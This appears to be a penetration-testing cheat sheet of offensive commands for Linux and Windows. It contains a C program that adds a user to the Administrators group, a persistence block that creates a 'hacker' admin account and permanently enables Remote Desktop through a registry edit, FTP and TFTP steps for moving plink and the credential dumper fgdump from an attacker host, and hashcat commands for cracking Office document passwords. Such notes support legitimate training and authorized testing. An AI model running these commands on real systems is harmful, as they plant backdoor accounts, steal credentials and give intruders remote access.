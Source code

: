 # Enum

- https://github.com/21y4d/nmapAutomator
- http://sparta.secforce.com/index.html#Download
- https://github.com/leebaird/discover

# Linux

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```

If compiler available, check for kernel exploits.

# Windows
Named pipes: https://github.com/peterpt/pipe_auditor_fb

Py to Exe:
- pywin32-218.win32-py2.7 pyinstaller-2.1
- python pyinstaller.py -­‐onefile	ms11-­080.py

Add user:
```
#include <stdlib.h>
int main ()
{
	int i;
	i=system ("net localgroup administrators lowpriv /add");
	return 0;
}
```

Persistence:
```
# Add Windows user:
net user /add hacker 1234567

# Add user to Administrators groups
net localgroup administrators /add hacker

# Add user to Remote Desktop user group
net localgroup "Remote Desktop users" hacker /add

# Start Remote Desktop service
net start TermService

# Is Remote Desktop Service running?
tasklist /svc | findstr /C:TermService

# Permanently enable Terminal Services
sc config TermService start=auto

# Enable Terminal services through registry  // reboot after
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

# File Transfer

FTP:
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21

ftp> open 192.168.13.203
ftp> binary
  200 Type set to I.
ftp> put plink2.exe
```

TFTP:
```
msf > use auxiliary/server/tftp
msf auxiliary(tftp) > set TFTPROOT /some/folder"
TFTPROOT => /some/folder

msf auxiliary(tftp) > run
[*] Auxiliary module execution completed
msf auxiliary(tftp) >
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /some/folder
[*] Uploaded files will be saved in /tmp
msf auxiliary(tftp) >

From the Windows client:
TFTP.EXE -i 10.11.0.159 get fgdump.exe C:\Users\Public

#TFTP manual
https://technet.microsoft.com/en-us/library/ff698993(v=ws.11).aspx
```

## Buf practice
https://github.com/justinsteven/dostackbufferoverflowgood
SLMail: https://www.exploit-db.com/exploits/638/
C code in https://www.exploit-db.com/exploits/646/
FreeFloatFTP Server 1.0: https://www.exploit-db.com/exploits/17546/
Minishare 1.4.1: https://www.exploit-db.com/exploits/636/
Savant 3.1: https://www.exploit-db.com/exploits/10434/
WarFTPD 1.6.5: https://www.exploit-db.com/exploits/3570/

## Public Reports
https://github.com/juliocesarfort/public-pentesting-reports

## Office docs
```
python ./office2john.py ../file1.docx

oclHashcat -a 0 -m 9400 -status -o found.txt hash.txt pass.txt

Office 97-03(MD5+RC4,oldoffice$0,oldoffice$1): flag -m 9700
Office 97-03(MD5+RC4,collider-mode#1): flag -m 9710
Office 97-03(MD5+RC4,collider-mode#2): flag -m 9720
Office 97-03(SHA1+RC4,oldoffice$3,oldoffice$4): flag -m 9800
Office 97-03(SHA1+RC4,collider-mode#1): flag -m 9810
Office 97-03(SHA1+RC4,collider-mode#2): flag -m 9820
Office 2007: flag -m 9400
Office 2010: flag -m 9500
Office 2013: flag -m 9600
```
